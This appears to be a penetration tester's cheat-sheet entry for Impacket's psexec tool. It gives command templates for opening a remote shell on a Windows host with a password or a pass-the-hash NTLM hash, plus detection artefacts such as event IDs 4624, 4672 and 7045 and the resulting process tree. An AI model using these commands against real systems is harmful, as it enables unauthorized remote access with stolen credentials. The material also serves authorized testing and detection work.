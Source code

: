 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py  

### open shell on remote host
```
impacket-psexec <domain>/<user>:<password>@<rhost>
```

### using hash (hash must be: lmhash:nthash)
```
impacket-psexec -hashes :<ntlmhash> <domain>/<user>@<rhost>
```

### opsec considerations
```
upload randomly named exe file to C:\Windows

Windows Security Log Event IDs
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
-Service Control Manager (7045)
```

### running processes
```
gsHtpykm.exe
└── cmd.exe
    └── Conhost.exe
```

